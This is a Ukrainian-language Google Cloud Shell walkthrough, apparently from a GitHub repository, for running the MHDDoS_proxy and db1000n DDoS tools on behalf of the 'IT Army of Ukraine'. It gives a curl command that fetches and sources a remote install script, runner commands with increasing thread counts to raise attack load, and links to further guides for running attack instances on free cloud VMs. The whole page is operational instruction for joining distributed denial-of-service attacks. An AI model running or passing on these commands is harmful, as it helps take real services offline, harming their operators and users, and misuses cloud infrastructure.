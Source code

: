 
#   Все буде Україна! 💙💛

## Привіт друзі
Бажаю вам чудового настною та гарного дня!

###  Запуск MHDDoS_proxy
  
- Для початківців пропоную хоча б частково ознайомитись з  інструкцією  
  👉  [Як запустити застосунок в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі.
  Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною  ***після закінчення даного сеансу***.

###  Зверніть увагу   
Якщо з'єднання перервано не підключайтесь вдруге бо вийдете з **ефемерного режиму**. Краще ***завантажтесь знову***, натиснувши кнопку розташовану нижче

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

Щоб перейти до запуску **MHDDoS_proxy** натисніть кнопку **START**

 ## Давайте почнемо

-  Для запуска MHDDoS_proxy скопіюйте команду розташовану нижче та натисніть клавішу **ENTER** 
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/mhddos_proxy_install.sh)
```
-   Якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 500 --itarmy --vpn
```
-   або наступну команду з ще більшим навантаженням
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 600 --itarmy --vpn
```
### Щоб переглянути навантаження на процесор використаємо команду **htop**
-   Додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та виконайте наступну команду
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **«Death by 1000 needles» (db1000n)**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
 
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
